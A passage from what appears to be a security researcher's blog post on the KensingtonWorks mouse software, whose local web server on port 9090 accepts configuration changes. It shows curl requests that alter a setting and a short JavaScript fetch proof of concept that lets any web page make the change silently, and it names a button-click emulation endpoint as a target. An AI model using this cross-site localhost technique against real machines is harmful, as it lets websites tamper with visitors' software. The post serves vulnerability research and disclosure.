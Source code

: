 This looked like a handy list of all the API endpoints in the KensingtonWorks server. The various `/config/...` endpoints sounded useful, but the one that caught my eye was `/devices/([0-9]+)/emulatebuttonclick/([0-9]+)` on the fifth line. Emulating a button click sounded like a great way to do something nasty to a victim's computer. I didn't know what to replace those `([0-9]+)` placeholders with, but suspected that if I bought myself a mouse then I would soon find out.

Before I shelled out £40 for a mouse I didn't actually want, I wanted to make one final check that the product met my high standards of insecurity. I tried probing the `/config/...` endpoints that I'd seen in the `[...]/MacOS/KensingtonWorksHelper` file (see above). I made some `GET` requests to my local KensingtonWorks server:

```bash
$ curl localhost:9090/config
{"devices":[],"platform":"darwin","timestamp":1582451041,"trayIcon":true,"versionMajor":2,"versionMinor":0}
$ curl localhost:9090/config/general
{"timeStamp":"2020-04-16T17-34-17.000Z","trayIcon":true}
```

I wondered if I could use the KensingtonWorks API to update the `trayIcon` parameter. Using standard REST conventions, I guessed a form for an update request:

```bash
# Double check the current config state
$ curl localhost:9090/config/general
{"timeStamp":"2020-04-16T17-34-17.000Z","trayIcon":true}

# Update the state
$ curl localhost:9090/config/general \
    -X POST -d "{\"trayIcon\": false}"
{"timeStamp":"2020-04-16T17-34-17.000Z","trayIcon":false}

# Confirm that the state has changed - trayIcon
# is now set to false.
$ curl localhost:9090/config/general
{"timeStamp":"2020-04-16T17-34-17.000Z","trayIcon":false}
```

Success - I had used the KensingtonWorks API to fiddle with a config setting, albeit a trivial one that didn't appear to do anything. The final proof of concept I wanted to construct before purchasing a mouse was to write a website that silently made this update in the background. I came up with the following JavaScript:

```javascript
fetch(
    "http://localhost:9090/config/general",
    {
        method : "POST",
        mode: "no-cors",
        body: JSON.stringify({"trayIcon": true})
    }
)
```

I put this code on a webpage. I visited the page, then checked the new state of my config:


[wireshark]: https://www.wireshark.org/
[cors]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[kw]: https://www.kensington.com/en-gb/software/kensingtonworks/
[priv]: https://robertheaton.com/2020/02/07/send-me-your-privacy-abuse-tipoffs/